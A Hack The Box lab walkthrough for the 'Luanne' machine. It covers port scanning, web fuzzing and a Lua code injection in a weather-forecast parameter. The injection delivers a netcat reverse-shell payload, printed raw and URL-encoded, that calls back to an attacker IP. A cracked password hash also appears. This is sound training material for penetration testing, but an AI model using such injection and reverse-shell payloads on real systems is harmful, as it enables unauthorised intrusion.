 ```yaml
---
layout: page
title: Luanne
description: Write-up
dropdown: HTB-BOXES
priority: 1
---
```

# Luanne Walkthrough
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68dcaeda-cf61-48b1-81df-3b50af1e1e63/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T212031Z&X-Amz-Expires=86400&X-Amz-Signature=dbcd74a0e70df071916f3b5829e6908e7810a2b0a601ab5e8b73336fbfb8017b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/64c7e259-9168-4229-9667-2595a8ddbe3a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T195051Z&X-Amz-Expires=86400&X-Amz-Signature=6e899b602e9231418485f298e07fb90c8d05390be5262e8817c037c988b418cd&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


### Let's start with the Web Page:

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4d331ad0-6ca7-4f1d-909f-84f926e8d56e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220747Z&X-Amz-Expires=86400&X-Amz-Signature=65b805dc8bf10b8ecc4d26e664344b6d9bee398bcc14798209258e3103428039&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3a02ba02-588c-4963-9dc7-24ea4943787e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220955Z&X-Amz-Expires=86400&X-Amz-Signature=cc099e62053f11be44e021d0cb5e4789522f0935ca106604f5f0521d40de01a3&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### I used ffuf for fuzzing luanne.htb/


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f6b5b7fb-096e-4093-8e4e-c60e9995e58e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221725Z&X-Amz-Expires=86400&X-Amz-Signature=8fc77eddae8de86bd36a0cf5c68b9a9fabfd4662dd30c88f17b2a0a8bed8094f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



* We got robots.txt

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6ab319aa-1ec4-4590-b79a-3a1c662e4592/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221840Z&X-Amz-Expires=86400&X-Amz-Signature=d5b1629ee14b8a6800c3adbee52baa8619ee207b69bb3ef4a574e9163fb2d6b0&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4cc16698-a933-4e1f-b8fe-93d90e352b09/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T222958Z&X-Amz-Expires=86400&X-Amz-Signature=671502ab015208afeb98b1e8115c50c54a76c79eac2badc5047ca95c6a2786ca&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/30d8f697-acbb-4e76-a9d3-f180eef28422/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223205Z&X-Amz-Expires=86400&X-Amz-Signature=54f272392356033508eb550b63db92bf354720ed6607b1ca1a05839ebf2b4a08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### Use city=list to list available cities 

*okay, Thanks*


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/97f1a229-81a0-4fc5-a5bd-a1563ef5d03a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223414Z&X-Amz-Expires=86400&X-Amz-Signature=1a4dc9c7f0f8694c1e8fa955301877b599fc83c7420080adeb386ce8f37a0d03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d25b6f67-0786-4f9a-a430-2037802b6cb9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T224449Z&X-Amz-Expires=86400&X-Amz-Signature=9ccb6b1fb1178961d4a5f681732eb4bd5fdec19c0ecd92531045733a69b1f4df&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b64544ff-c962-4820-89c7-87d16bae551d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T233833Z&X-Amz-Expires=86400&X-Amz-Signature=1c932c8959ac3359021f96e9a027d6478eb9e2d448f981ecb0da2266efb56c24&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/98100502-7a21-44e9-a307-71009920d1f5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000029Z&X-Amz-Expires=86400&X-Amz-Signature=ba06437302ef5bb61103ad4745f4a1173b7f3ef368623bb14d2824626fb64d01&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

** we got iamthebest**

## Enumerate luanne.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/81c7b723-f8c6-4c67-815a-cc6fb50b694e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000501Z&X-Amz-Expires=86400&X-Amz-Signature=dc8d5eac59120d22d8e2ce98cbbbe5c7972cea09e34d87d602ce2f98b9405707&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * We got user r.michaels 

**Let's check the netstate** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68cbe7e3-435c-4071-b0c2-362c4e020e4e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000734Z&X-Amz-Expires=86400&X-Amz-Signature=a44ed310321fbe5aa26f79c418f10a2cba6f2bdd49b10dfde7c7b76104cbdf03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * There is a localhost web page on port 3000 and 3001 

**Let's Dig more**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/62151e89-8b1e-4410-81d0-576865571022/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000947Z&X-Amz-Expires=86400&X-Amz-Signature=0feb6997691ee9f8b4fb6bc2d50bde74b6fbf1879abab801c6ce75945912f2c4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/274bfca7-5dc2-4e22-829e-fc635a640a9f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T001005Z&X-Amz-Expires=86400&X-Amz-Signature=8eda012b3fa2de684229b9ed534e0dfe70be7b67d8d148d8b4beef47c8da1731&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**So let's Try to curl the local web server ports in 3001**
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
